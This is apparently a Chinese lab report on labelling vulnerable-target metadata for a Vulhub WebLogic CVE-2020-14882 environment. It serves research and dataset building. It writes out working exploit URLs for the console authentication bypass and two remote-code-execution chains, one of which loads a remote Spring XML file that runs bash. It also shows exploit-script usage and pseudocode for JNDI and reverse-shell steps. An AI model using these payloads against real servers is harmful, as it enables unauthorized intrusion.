



# 2025-12-04 组会周报

## 关键词

- 做会议记录

- 靶标元数据标注

- AI务必查证出处

## 单靶标元数据标注步骤（以 Vulhub 中 WebLogic CVE-2020-14882 为例）

### 确定靶标基础信息

从 Vulhub 官方仓库提取无需验证的基础信息：

- 靶标名称：weblogic-cve-2020-14882

- 镜像名称：vulhub/weblogic:12.2.1.3-2018

```json    
"name": "weblogic-cve-2020-14882"
"image": "vulhub/weblogic:12.2.1.3-2018"
```

### 本地部署靶标

进入对应漏洞目录，启动容器，记录端口信息（ingress）

```bash
cd weblogic/CVE-2020-14882  # 进入 Vulhub 中该漏洞的目录
docker-compose up -d  # 启动服务
docker ps  # 查看容器端口映射，或者直接查看 docker-compose.yml 中的端口映射
```



```json
"ingress": [7001]
```

### 验证漏洞可利用性

- 漏洞复现（Vulnerability Reproduction）：让漏洞“再发生一次”，手段任意——PoC、EXP、手工调试、补丁回退都行。
 
- PoC 验证（PoC Verification）：用“最小无害脚本”证明漏洞确实存在，是复现的一种轻量方式。

- EXP 利用（Exploitation）：在确认存在的基础上，深度利用以获取权限、数据或横向移动，属于“武器化”阶段。

#### 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal
```
访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

这个漏洞的利用方式有两种:

1. 通过`com.tangosol.coherence.mvel2.sh.ShellSession`

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`touch /tmp/success1`已成功执行。

2. 通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

首先，构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上http://172.21.129.98:80/rce.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://172.21.129.98:80/rce.xml")
```
进入容器，可以发现`touch /tmp/success2`已成功执行。


根据验证结果，记录漏洞类型（vuln_type），远程代码执行是 `rce`。

```json
"vuln_type": "rce"
```

**漏洞类型说明表**

| 类型                | 说明           |
|:-------------------:|:--------------:|
| rce                 | 远程代码执行   |
| sqli                | SQL 注入       |
| xss                 | 跨站脚本       |
| csrf                | 跨站请求伪造   |
| lfi                 | 本地文件包含   |
| rfi                 | 远程文件包含   |
| XXE                 | XML 外部实体   |
| ssrf                | 服务端请求伪造 |
| auth-bypass         | 认证绕过       |
| privilege-esc       | 权限提升       |
| info-leak           | 信息泄露       |
| dos                 | 拒绝服务       |
| deserialization     | 反序列化       |
| directory-traversal | 目录遍历       |
| weak-crypto         | 弱加密         |
| backdoor            | 内置后门       |
| template-injection  | 模板注入       |
| command-inj         | 命令注入       |
| ldap-inj            | LDAP 注入      |
| xpath-inj           | XPath 注入     |
| jsonp-hijack        | JSONP 劫持     |

#### PoC 验证

编写漏洞的 PoC 脚本，放在`pocs/weblogic/`目录下

```bash
"poc_script": "pocs/weblogic/cve_2020_14882.py"
```

接受`target_ip`, `target_port`作为输入，输出标准 JSON 结果 `{"success": true, "details": "uid=0(root)"}`，以便 Dify 解析。

```bash
python3 pocs/weblogic/cve-2020-14882.py http://172.21.129.98:7001 
```



#### exp 利用

能够实现：

- 单靶标命令回显执行：通过 weblogic.work.ExecuteThread 反射逻辑获取命令输出，适配部分 WebLogic 版本。
- 无回显执行：通过 FileSystemXmlApplicationContext 加载远程 XML，支持无回显场景。

```bash
python3 exps/weblogic/cve-2020-14882.py -u http://172.21.129.98:7001 -x http://172.21.129.98:80/rce.xml
```



需要改进：

```bash
# 核心流程伪代码
1. 解析命令行参数（目标IP、端口、执行命令、LDAP地址等）
2. 检测目标 7001 端口是否存活
3. 发送认证绕过请求，验证漏洞是否存在
4. 根据目标版本选择利用链：
   - 若直接执行 Gadget 可用：构造命令执行请求，发送并尝试回显
   - 若需 JNDI 注入：启动本地 LDAP/HTTP 服务器，构造注入请求，等待目标加载恶意类
5. 监听反弹 shell 端口（若选择反弹方案），或读取回显文件/DNS 日志
6. 输出执行结果，结束利用
```

基础命令回显验证
```bash
# 验证单目标执行whoami
python3 exps/weblogic/cve-2020-14882.py -u http://172.21.129.98:7001 -c whoami
# 验证单目标执行id
python3 exps/weblogic/cve-2020-14882.py -u http://172.21.129.98:7001 -c id
```
#### 标准化标注元数据

```json
{
   "name": "weblogic-cve-2020-14882",
   "image": "vulhub/weblogic:12.2.1.3-2018",
   "contracts": {
   "ingress": [7001],
   "egress": ["ldap_server"],
   "vuln_type": "rce",
   "poc_script": "pocs/weblogic/cve_2020_14882.py"
   }
}
```
